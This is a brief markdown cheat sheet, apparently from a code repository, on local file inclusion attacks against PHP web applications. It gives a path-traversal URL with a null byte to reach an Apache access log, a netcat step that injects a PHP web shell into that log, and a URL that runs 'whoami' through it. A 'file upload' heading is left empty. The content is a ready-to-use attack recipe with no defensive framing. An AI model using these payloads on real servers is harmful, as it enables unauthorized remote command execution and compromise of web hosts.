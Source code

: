 # LFI/RFI shell tricks
the idea is to inject code into log file then calling the logfile and executing commands

## LFI parameter
	http://example.com/page?id=LFI
## LFI log file inclusion
	try to access the log file, if ok then proceed to inject a shell on the log file
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00
	nc example.com 80
	<?php echo system($_GET['cmd']); ?>
## LFI command execution
	http://example.com/page?id=../../../../../../../xampp/htdocs/apache/logs/access.log%00&cmd=whoami
## LFI file upload
	